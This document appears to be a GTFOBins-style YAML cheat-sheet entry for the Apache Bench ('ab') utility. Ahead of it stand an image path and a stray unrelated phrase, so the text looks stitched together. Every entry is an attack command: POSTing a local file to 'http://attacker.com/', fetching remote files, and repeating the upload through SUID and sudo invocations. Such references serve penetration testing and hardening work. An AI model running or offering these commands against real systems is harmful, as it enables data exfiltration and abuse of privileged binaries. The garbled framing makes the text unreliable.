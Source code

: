 ya gay ---
functions:
  file-upload:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  suid:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  sudo:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
---
